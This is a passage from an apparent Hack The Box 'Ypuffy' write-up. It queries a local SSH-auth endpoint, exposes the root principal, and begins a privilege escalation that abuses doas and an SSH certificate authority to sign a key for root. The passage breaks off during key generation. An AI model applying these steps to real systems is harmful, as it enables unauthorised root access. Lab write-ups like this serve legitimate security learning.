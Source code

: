 There are 2 curl commands that are interesting, let's use them.

This is integrated with the postgresql server running. With `type=keys`, I can list my SSH-public key.
```bash
ypuffy$ curl 'http://127.0.0.1/sshauth?type=keys&username=alice1978'
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02quxBoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAjh7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/SxaiA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWxivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw== rsa-key-20180716
ypuffy$ curl 'http://127.0.0.1/sshauth?type=keys&username=bob8791'
ypuffy$ curl 'http://127.0.0.1/sshauth?type=keys&username=root'
```

With `type=principals`, I can get the principal for root: `3m3rgencyB4ckd00r`
```bash
ypuffy$ curl 'http://127.0.0.1/sshauth?type=principals&username=root'
3m3rgencyB4ckd00r
ypuffy$ curl 'http://127.0.0.1/sshauth?type=principals&username=alice1978'
alice1978
ypuffy$ curl 'http://127.0.0.1/sshauth?type=principals&username=bob8791'
bob8791
```

## doas for SSH with CA 
So, I'll generate SSH keys for root as user `userca`, who manages all the SSH-CA authenticated keys.
If I generate a SSH-key pair and set the public key for root with that pair, I can easily get root as I've the private key.

```bash 
$ doas -u userca /usr/bin/ssh-keygen
```

Above command needs some extra flags for CA authentication.
> If I google "_ssh ca authentication_":
> [access.redhat.com/documentation/......./creating_ssh_ca_certificate_signing-keys](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/sec-creating_ssh_ca_certificate_signing-keys)
> I get - ```ssh-keygen -s ca_host_key -I certificate_ID -h ssh_host_rsa_key.pub```

or 

I do `ssh-keygen --help`:
```bash
ssh-keygen -I certificate_identity -s ca_key [-hU] [-D pkcs11_provider]
                  [-n principals] [-O option] [-V validity_interval]
                  [-z serial_number] file ...
```

So, this command requires a public file at the end. (Says just file in the help, but the article mentions SSH public key)

- Generating a SSH-key pair:
```bash
ypuffy$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_rsa): /tmp/id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /tmp/id_rsa.
Your public key has been saved in /tmp/id_rsa.pub.
The key fingerprint is:
SHA256:zHdJX37Q3tKAg9K1J/VipnyESQcxAGf1fKKDxHLzmtM alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[RSA 2048]----+
|        ..+oBoo  |
|         = + @ o |
```